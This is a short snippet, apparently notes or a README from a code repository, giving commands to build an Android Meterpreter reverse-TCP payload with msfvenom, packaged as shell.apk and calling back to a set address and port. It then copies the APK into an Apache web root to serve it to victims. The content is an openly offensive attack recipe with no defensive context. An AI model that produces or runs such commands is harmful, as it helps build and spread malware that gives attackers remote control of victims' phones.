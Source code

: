 
  Creating a payload for android:
  --------------------------
  
    msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4444 R> shell.apk
    
  Starting apache2 server:
  --------------------------
  cp shell.apk /var/www/html/
    
    
    
 
